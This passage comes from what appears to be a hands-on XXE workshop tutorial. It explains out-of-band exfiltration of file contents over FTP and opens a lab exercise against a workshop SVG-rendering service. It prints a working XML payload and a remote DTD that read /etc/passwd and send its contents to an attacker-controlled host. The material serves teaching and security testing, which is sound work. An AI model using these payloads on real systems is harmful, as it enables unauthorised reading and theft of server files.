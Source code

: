 The previous technique was [updated with a variant](http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html). This variant replaces Gopher with the FTP protocol. It is very useful because the Gopher is deprecated and only available on [old version of Java](https://bugzilla.redhat.com/show_bug.cgi?id=865541#c0).


The following payload requires a remote DTD file to be hosted on a web server. The DTD file is taking care of doing the concatenation. The final objective is to evaluate `ftp://test:%file;@my.ftp.server/`. The file content is sent as a password.

**payload sent**
```xml
<?xml version="1.0"?>
<!DOCTYPE data [ 
 <!ENTITY % file SYSTEM "file:///etc/passwd">
 <!ENTITY % dtd SYSTEM "http://your.host/remote.dtd"> 
%dtd;]>
<data>&send;</data>
```

**http://your.host/remote.dtd**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'ftp://test:%file;@my.ftp.server/'>"> %all;
```

In order to capture the file content, you need to record the password sent to your FTP server. To serve this purpose, Ivan Novikov has created [a mock FTP server](http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html) that respond just enough to record a password. (FTP clients will not authenticate if the handshake is incomplete.)










## LAB 2: Exfiltration with remote DTD
Duration: 00:15:00


For this second exercise, we are using a website that render SVG image based on the XML given. The service is at the URL : [http://xxe-workshop.gosec.co:8022](http://xxe-workshop.gosec.co:8022)


![Preview website](assets/exercise2/image4.png)

### Solution

#### First exploration

When reusing the technique we saw in the previous exercise, we can see that the file content is displaying all in one line. This makes it hard to exfiltrate text files. In many real-world cases, the result will simply not be displayed to the user. The parsing will be hidden and possibly done asynchronously.
